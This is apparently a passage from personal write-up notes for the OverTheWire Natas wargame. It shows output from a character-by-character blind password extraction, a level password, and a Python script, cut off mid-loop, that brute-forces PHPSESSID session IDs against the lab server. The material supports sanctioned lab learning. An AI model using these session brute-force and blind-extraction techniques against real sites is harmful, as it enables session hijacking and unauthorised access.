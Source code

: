 ```bash
Found one more char : 6OG1PbKdVjyBlpx
Found one more char : 6OG1PbKdVjyBlpxg
Found one more char : 6OG1PbKdVjyBlpxgD
Found one more char : 6OG1PbKdVjyBlpxgD4
Found one more char : 6OG1PbKdVjyBlpxgD4D
Found one more char : 6OG1PbKdVjyBlpxgD4DD
Found one more char : 6OG1PbKdVjyBlpxgD4DDb
Found one more char : 6OG1PbKdVjyBlpxgD4DDbR
Found one more char : 6OG1PbKdVjyBlpxgD4DDbRG
Found one more char : 6OG1PbKdVjyBlpxgD4DDbRG6
Found one more char : 6OG1PbKdVjyBlpxgD4DDbRG6Z
Found one more char : 6OG1PbKdVjyBlpxgD4DDbRG6ZL
Found one more char : 6OG1PbKdVjyBlpxgD4DDbRG6ZLl
Found one more char : 6OG1PbKdVjyBlpxgD4DDbRG6ZLlC
Found one more char : 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCG
Found one more char : 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGg
Found one more char : 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgC
Found one more char : 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
Found one more char : 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJU
Found one more char : 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJUV
Done!
```

## 18->19
- http://natas18.natas.labs.overthewire.org/
- `natas19:tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr`
- `PHPSESSID` Brute Force exploit
- https://nils-maeurer.de/post/overthewire-natas18-19/
- https://learnhacking.io/overthewire-natas-level-18-walkthrough/
```python
"""
Dev Tools > Copy as cURL
--

curl 'http://natas18.natas.labs.overthewire.org/index.php?debug' \
  -H 'Authorization: Basic bmF0YXMxODo2T0cxUGJLZFZqeUJscHhnRDRERGJSRzZaTGxDR2dDSg==' \
...
"""

# Implementation 1

"""
curl 'http://natas18.natas.labs.overthewire.org/index.php?debug' \
  -H 'Authorization: Basic bmF0YXMxODo2T0cxUGJLZFZqeUJscHhnRDRERGJSRzZaTGxDR2dDSg==' \
"""

import requests

MAX = 640
count = 1

u = "http://natas18.natas.labs.overthewire.org"
auth_header = {
    'Authorization': 'Basic bmF0YXMxODo2T0cxUGJLZFZqeUJscHhnRDRERGJSRzZaTGxDR2dDSg==',
}

while count <= MAX:
    sessionID = "PHPSESSID=" + str(count)
    print(sessionID)

    cookie = {"PHPSESSID": str(count)}
    response = requests.get(url=u, headers=auth_header, cookies=cookie)
```